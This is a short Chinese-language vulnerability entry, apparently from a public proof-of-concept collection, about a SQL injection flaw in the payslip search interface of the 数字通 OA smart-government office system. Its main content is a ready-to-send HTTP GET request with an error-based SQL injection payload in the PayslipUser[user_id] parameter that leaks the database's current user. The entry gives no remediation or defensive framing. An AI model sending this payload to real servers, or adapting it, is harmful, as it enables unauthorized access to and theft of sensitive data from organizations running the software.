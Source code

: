 ## 数字通OA-智慧政务接口payslip存在SQL注入漏洞

中科数字通（北京）科技有限公司全新架构的智慧办公系统，由9大类、50多个主要功能模块构成。旨在为组织单位内部提供全新一代智慧型协同办公系统，数字通指尖云平台-智慧政务存在SQL注入漏洞，可通过SQL注入可获取敏感信息。

## fofa

```yaml
暂无语法
```

## poc

```yaml
GET /payslip/search/index/userid/time/time?PayslipUser[user_id]=(SELECT 4050 FROM(SELECT COUNT(*),CONCAT((mid((ifnull(cast(current_user() as nchar),0x20)),1,54)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: GOASESSID=i589f58naalabocmbidup7edl3
Upgrade-Insecure-Requests: 1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111952197.png)